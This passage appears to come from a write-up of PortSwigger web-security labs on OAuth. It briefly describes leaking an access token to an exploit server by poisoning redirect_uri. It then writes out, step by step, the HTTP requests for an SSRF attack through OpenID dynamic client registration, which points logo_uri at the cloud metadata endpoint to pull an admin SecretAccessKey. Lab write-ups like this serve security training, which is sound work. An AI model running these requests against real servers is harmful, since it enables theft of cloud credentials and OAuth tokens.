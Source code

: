 The server will first poisone the `redirect_uri` so that it returns the `access_token` to the `post/comment/comment-form` endpoint. This endpoint will post a message containing the `window.location.href` to its parent (our exploit server). All we have left to do is add a listener and put the message into the `GET` request to later retrieve via the log.
The last steps are just the same as the above lab.

### LAB: SSRF via OpenID dynamic client registration
> Note: [OpenID stuff](https://portswigger.net/web-security/oauth/openid)

Visit the documentation page of the OAuth server at:

    https://oauth-0adb006c037ba83783e5635a02d200d5.oauth-server.net/.well-known/openid-configuration

Notice the registration endpoint:

    "registration_endpoint":"https://oauth-0adb006c037ba83783e5635a02d200d5.oauth-server.net/reg"

When auditing the OAuth flow, notice a `GET` request for the web's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send this request to try to register a web application to the OAuth server:

    POST /reg HTTP/2
    Host: oauth-0adb006c037ba83783e5635a02d200d5.oauth-server.net
    Content-Type: application/json
    Accept: application/json
    Content-Length: 140

    {
        "redirect_uris":  [
            "https://exapmle.com"
        ]
    }

Notice we don't need any key to register a web app. Make us of that and register a web app with `logo_uri` specified to the a location in the victim's network to conduct a SSRF attack:

    POST /reg HTTP/2
    Host: oauth-0adb006c037ba83783e5635a02d200d5.oauth-server.net
    Cookie: session=9QAOAtg03inNNyvMOij8TRJqykxBy5gb
    Content-Type: application/json
    Accept: application/json
    Content-Length: 140

    {
        "redirect_uris":  [
            "https://exapmle.com"
        ],
        "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
    }

Retrieve the `client_id` (`9dax2GfyIL9igmwBuB4Eg`) from the response and send this request:

    GET /client/9dax2GfyIL9igmwBuB4Eg/logo HTTP/2
    Host: oauth-0adb006c037ba83783e5635a02d200d5.oauth-server.net
    Cookie: session=9QAOAtg03inNNyvMOij8TRJqykxBy5gb
    Accept: application/json

Get the `SecretAccessKey` and submit the solution.
